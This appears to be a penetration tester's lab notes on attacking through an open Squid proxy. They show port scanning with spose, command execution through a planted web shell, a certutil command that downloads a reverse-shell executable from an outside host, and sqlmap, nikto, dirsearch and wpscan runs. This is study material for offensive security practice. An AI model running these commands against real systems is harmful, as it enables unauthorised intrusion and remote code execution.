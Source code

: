 #### Spose
```bash - kali
git clone https://github.com/aancw/spose.git && cd spose
```

```bash - kali
python3 spose.py --proxy http://$TARGET:3128 --target 127.0.0.1
```

![[Pasted image 20220610140446.png]]

#### Foxy Proxy
![[Pasted image 20220610133805.png]]

Once foxy proxy is set up, we now try visiting one of the ports found by spose:

http://127.0.0.1:3306
http://127.0.0.1:8080

Visiting 8080, we see a link for /phpmyadmin

[[phpmyadmin]]

```bash - kali
curl --proxy $TARGET:3128 "http://127.0.0.1:8080/shelly.php?cmd=whoami" 
```

[[1._Reverse Shells (WIN)#Stageless Payloads]]

[[rlwrap]]

[[Python#Server]]

[[4._File Transfers]]

```bash - kali
curl --proxy $TARGET:3128  "http://127.0.0.1:8080/shelly.php?cmd=certutil%20-urlcache%20-split%20-f%20http%3A%2F%2F192.168.49.57%2Freverse64.exe"
```

#### Nikto
```bash - kali
nikto -h $TARGET -useproxy http://$TARGET:3128
```

#### dirsearch 
```bash - kali
dirsearch -u http://$TARGET --proxy=$TARGET:3128
```

#### sqlmap
```bash - kali
sqlmap -u http://$TARGET/sqli/Less-1/?id=1 --dbs --proxy http://$TARGET:3128
```

#### Wordpress wpscan
```bash - kali
wpscan -e ap,at,tt,cb,dbe,u,m --detection-mode aggressive --plugins-detection aggressive -t 30 --url http://$TARGET --proxy http://$TARGET
```

